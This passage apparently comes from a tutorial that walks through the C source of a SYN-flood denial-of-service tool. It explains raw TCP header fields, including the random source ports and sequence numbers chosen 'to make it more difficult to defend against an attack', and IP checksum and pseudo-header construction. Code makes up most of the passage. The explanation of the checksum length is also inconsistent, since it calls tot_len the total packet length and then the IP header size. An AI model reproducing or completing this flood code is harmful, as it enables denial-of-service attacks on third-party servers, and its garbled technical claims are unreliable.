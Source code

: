 ```c
        // Filling in the TCP header
        tcph->source = htons(rand() % 65535);
        tcph->dest = htons(target_port);
        tcph->seq = htonl(rand() % 4294967295);
        tcph->ack_seq = 0;
        tcph->doff = 5;
        tcph->fin = 0;
        tcph->syn = 1; // Setting the SYN flag
        tcph->rst = 0;
        tcph->psh = 0;
        tcph->ack = 0;
        tcph->urg = 0;
        tcph->window = htons(5840);
        tcph->check = 0;
        tcph->urg_ptr = 0;
```

* **Filling in the TCP header:** Here the fields of the TCP header are filled in.  This is where we create the SYN packet (set the `SYN` flag).
    * `tcph->source =htons(rand() %65535);`: Random source port.
    * `tcph->dest =htons(target_port);`: Destination port (target of attack).
    * `tcph->seq = htonl(rand() %4294967295);`: Random sequence number (seq).  It is important that it is random to make it more difficult to defend against an attack.
    * `tcph->ack_seq = 0;`: Confirmation number (ack_seq).  It is not used in SYN packets.
    *   `tcph->doff = 5;`:  The length of the TCP header in 32-bit words (5 * 4 = 20 bytes, the standard size of the TCP header).
    * `tcph->fin = 0;`: Flag FIN (connection termination).  It is not used in SYN packets.
    * `tcph->syn = 1;`: **The SYN flag is set to 1.** This indicates to the server that this is a request to establish a TCP connection.  **This is what makes a SYN packet a packet!**
* `tcph->rst = 0;`: The RST flag (connection reset).  Not used.
    * `tcph->psh = 0;`: The PSH flag (push - immediate data transfer).  Not used.
    * `tcph->ack = 0;`: The ACK (confirmation) flag.  Not used.
    * `tcph->urg = 0;`: The URG flag (urgent - urgent data).  Not used.
    * `tcph->window =htons(5840);`: The size of the receiving window.
    *   `tcph->check = 0;`: The checksum of the TCP header (to be calculated later).
    *   `tcph->urg_ptr = 0;`: A pointer to urgent data.  Not used.

```c
        // Calculation of checksums
        iph->check = checksum((unsigned short *)packet, iph->tot_len >> 1);
```

*   `iph->check = checksum((unsigned short *)packet, iph->tot_len >> 1);`:
    * We calculate the checksum of the IP header using the checksum function (which we analyzed earlier).
    * `iph->tot_len >> 1`: Divide `iph->tot_len` (total packet length) by 2. `>> 1` is a right shift of 1 bit, which is equivalent to dividing by 2. We pass to the checksum function only the size of the IP header, which is usually equal to 20 bytes (therefore, it must be divided by 2 for checksum to work correctly)
* 'iph->check = ...`: Save the calculated checksum in the `check' field of the IP header.

```c
        // Pseudo headers for TCP checksum
        struct {
            u_int32_t saddr;
            u_int32_t daddr;
            u_int8_t zero;
            u_int8_t protocol;
            u_int16_t tcp_len;
        } pseudo_header;

        pseudo_header.saddr = iph->saddr;
        pseudo_header.daddr = iph->daddr;
        pseudo_header.zero = 0;
        pseudo_header.protocol = IPPROTO_TCP;
```